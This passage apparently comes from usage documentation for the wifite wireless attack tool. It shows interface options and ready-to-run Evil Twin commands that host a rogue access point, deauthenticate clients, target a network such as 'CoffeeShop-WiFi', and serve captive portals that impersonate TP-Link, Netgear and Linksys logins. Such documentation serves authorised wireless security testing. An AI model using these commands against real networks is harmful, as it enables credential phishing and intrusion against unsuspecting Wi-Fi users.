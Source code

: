 ```bash
# When you want to test single interface behavior
sudo wifite --no-dual-interface --interface wlan0

# When one interface is unreliable
sudo wifite --no-dual-interface --interface wlan0

# When you need to preserve one interface for other use
sudo wifite --no-dual-interface --interface wlan0
```

## Evil Twin with Dual Interfaces

Evil Twin attacks benefit significantly from dual interface mode.

### Basic Evil Twin

```bash
# Automatic dual interface Evil Twin
sudo wifite --dual-interface --eviltwin

# Manual interface Evil Twin
sudo wifite --interface-primary wlan0 --interface-secondary wlan1 --eviltwin
```

**What Happens:**
- Primary interface (wlan0) enters AP mode and hosts rogue AP
- Secondary interface (wlan1) enters monitor mode for deauth
- Both operate in parallel (no mode switching)
- Clients connect to rogue AP and see captive portal

### Evil Twin with Specific Target

```bash
# Target specific network by BSSID
sudo wifite --dual-interface --eviltwin -b AA:BB:CC:DD:EE:FF

# Target by ESSID
sudo wifite --dual-interface --eviltwin -e "CoffeeShop-WiFi"

# Target on specific channel
sudo wifite --dual-interface --eviltwin -c 6 -b AA:BB:CC:DD:EE:FF
```

### Evil Twin with Custom Portal

```bash
# Use generic portal template
sudo wifite --dual-interface --eviltwin --portal-template generic

# Use TP-Link portal template
sudo wifite --dual-interface --eviltwin --portal-template tplink

# Use Netgear portal template
sudo wifite --dual-interface --eviltwin --portal-template netgear

# Use Linksys portal template
sudo wifite --dual-interface --eviltwin --portal-template linksys
```
